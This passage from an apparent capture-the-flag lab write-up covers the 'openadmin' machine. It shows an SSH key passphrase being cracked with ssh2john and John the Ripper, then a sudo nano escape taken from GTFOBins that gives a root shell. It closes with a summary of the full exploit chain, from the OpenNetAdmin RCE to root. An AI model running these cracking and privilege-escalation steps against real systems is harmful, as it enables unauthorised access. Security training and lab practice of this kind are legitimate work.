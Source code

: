 - use john to crack its passphrase

```console
$ ssh2john id_rsa > hash

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:01 DONE (2024-01-19 12:53) 0.5555g/s 5319Kp/s 5319Kc/s 5319KC/s bloodpigsotep..bloodmobb1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### joanna -> root

- enum: sudo -l

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

- [nano | GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo)

```console
Command to execute: reset; bash 1>&0 2>&0root@openadmin:/home/joanna#
root@openadmin:/home/joanna#
root@openadmin:/home/joanna# id
uid=0(root) gid=0(root) groups=0(root)
root@openadmin:/home/joanna# uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
root@openadmin:/home/joanna# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4e:2b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.171/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4e2b/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> path scan -> ona service -> RCE -> www-data shell -> enum ona config -> cred -> ssh as jimmy -> netstat special port open -> internal http page available -> port forwarding using ssh -> joanna's priv key -> joanna shell -> sudo -l -> nano misconfig -> root shell

